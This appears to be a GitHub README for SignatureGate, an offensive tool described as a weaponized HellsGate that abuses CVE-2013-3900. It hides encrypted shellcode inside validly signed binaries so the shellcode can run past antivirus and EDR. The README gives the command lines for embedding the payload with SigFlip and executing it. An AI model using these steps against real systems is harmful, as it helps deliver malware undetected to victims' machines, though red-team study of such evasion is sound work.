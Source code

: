 # SignatureGate

Weaponized version of HellsGate, bypassing AV/EDR/EPPs by abusing opt-in-fix CVE-2013-3900. Most code is from https://github.com/am0nsec/SharpHellsGate and https://github.com/med0x2e/SigFlip.

## Usage

Generate shellcode from a .NET assembly with Donut.

Generate malicious signed file with:


```
.\SigFlip.exe -i path_to_signed_binary -s path_to_malicious_shellcode -o path_to_output_file -e encryption_key
```

Run the malicious shellcode from the file with

```
.\SignatureGate.exe path_to_malicious_file encryption_key
```

## Proof of Concept

![SignatureGate](https://github.com/florylsk/SignatureGate/assets/46110263/1e89b761-3a6e-42d9-b15f-96ab70f011c7)

